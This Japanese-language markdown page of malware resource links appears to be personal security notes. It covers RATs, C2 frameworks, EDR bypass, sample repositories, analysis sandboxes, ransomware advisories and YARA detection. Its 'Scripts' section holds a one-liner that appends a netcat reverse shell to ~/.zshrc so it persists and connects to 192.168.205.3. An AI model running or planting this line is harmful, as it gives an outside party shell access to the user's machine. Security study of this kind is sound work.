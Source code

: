 # マルウェア

https://malpedia.caad.fkie.fraunhofer.de/

## RAT

https://github.com/AHXR/ghost

## C2

https://howto.thec2matrix.com/

https://github.com/BishopFox/sliver

## Back Door

https://github.com/restran/BlueShell

## Bypass EDR

https://github.com/Tylous/ScareCrow

## 検体の入手

https://objective-see.org/malware.html

[マルウェア検体を入手する方法](https://www.japan-secure.com/entry/blog-entry-198.html)

[eicar test file](https://www.eicar.org/?page_id=3950)

[SourceFinder: Finding Malware Source-Code from Publicly Available Repositories in GitHub](https://www.usenix.org/system/files/raid20-rokon.pdf)

https://virusshare.com/

https://urlhaus.abuse.ch/

https://github.com/topics/malware-samples

https://github.com/ytisf/theZoo

https://github.com/rshipp/awesome-malware-analysis

https://github.com/vxunderground/MalwareSourceCode

https://github.com/offensive-security/exploitdb

https://github.com/timb-machine/linux-malware

https://artifacthub.io/packages/container/malware-cryptominer-container/malware-cryptominer-container

## 検体

- rootkit
  - https://github.com/enzolovesbacon/inficere
- backDoor
  - https://github.com/mosca1337/OSX-Peristant-BackDoor

## マルウェア解析

- [Free Automated Malware Analysis Sandboxes and Services](https://zeltser.com/automated-malware-analysis/)
  - https://any.run/
- https://www.sans.org/blog/how-you-can-start-learning-malware-analysis/
- [マルウェア解析に必要な素養](https://hackmd.io/@K-atc/S1kLEr5x)
- ブログ
  - https://www.mbsd.jp/research/malware/#contents
  - [東京五輪に関係する日本語のファイル名を持つマルウェア(ワイパー)の解析](https://www.mbsd.jp/research/20210721/blog/)

## Ransomeware

[Ransomware Attacks and Types – How Encryption Trojans Differ](https://www.kaspersky.com/resource-center/threats/ransomware-attacks-and-types)

[ランサムウェア攻撃で悪用された正規ツールを解説](https://blog.trendmicro.co.jp/archives/28681)

https://www.cisa.gov/stopransomware

[侵入型ランサムウェア攻撃を受けたら読むFAQ](https://www.jpcert.or.jp/magazine/security/ransom-faq.html)

## 脅威データベース

https://www.trendmicro.com/vinfo/jp/threat-encyclopedia/

https://urlhaus.abuse.ch/

## マルウェア検知ツール

https://github.com/VirusTotal/yara

https://blog.malwarebytes.com/security-world/technology/2017/09/explained-yara-rules/

https://github.com/hasherezade/hollows_hunter

## VirusTotal

https://www.virustotal.com/gui/

https://keepmealive.jp/about-virustotal/

## マルウェア、ウイルス一覧

- Emotet
  - https://www.ipa.go.jp/security/announce/20191202.html
  - https://github.com/JPCERTCC/EmoCheck
- Phoenix Cryptolocker
  - https://cloudsek.com/threatintelligence/phoenix-cryptolocker-ransomware-threat-intel-advisory/
- Kinsing
  - https://attack.mitre.org/software/S0599
  - https://blog.aquasec.com/threat-alert-kinsing-malware-container-vulnerability
  - https://www.cyberark.com/resources/threat-research-blog/kinsing-the-malware-with-two-faces
- Doki
  - https://www.securecoding.com/blog/all-about-doki-malware/

## Scripts

```bash
# zshrc で永続化
echo '(rm ./pipe; mkfifo ./pipe; cat ./pipe | /bin/sh -i 2>&1|nc 192.168.205.3 1337 > ./pipe &)' >> ~/.zshrc

```

## YARA Rules

https://github.com/JPCERTCC/jpcert-yara

https://github.com/Yara-Rules/rules

https://malpedia.caad.fkie.fraunhofer.de/

## AntiVirus

https://github.com/VirusTotal/yara

https://github.com/Cisco-Talos/clamav

https://github.com/deepfence/YaraHunter

## Development

https://github.com/redcode-labs/Coldfire

https://github.com/tiagorlampert/CHAOS

https://github.com/EgeBalci/ARCANUS

https://github.com/EgeBalci/EGESPLOIT

https://github.com/Enelg52/OffensiveGo

https://github.com/trickster0/OffensiveRust

## Tools

https://github.com/sweetsoftware/Ares

## Sandbox

https://github.com/kevoreilly/CAPEv2

## Malware Analisys

https://github.com/NationalSecurityAgency/ghidra

## 参考

[Goで書かれたマルウェアが増加傾向--APTと犯罪グループの両方が利用](https://japan.zdnet.com/article/35167172/)

[ストップ！ ランサムウェア　ランサムウェア特設ページ - NISC](https://security-portal.nisc.go.jp/stopransomware/)

[Ransomware as a Service Innovation Curve](https://www.coveware.com/blog/2022/1/26/ransomware-as-a-service-innovation-curve)
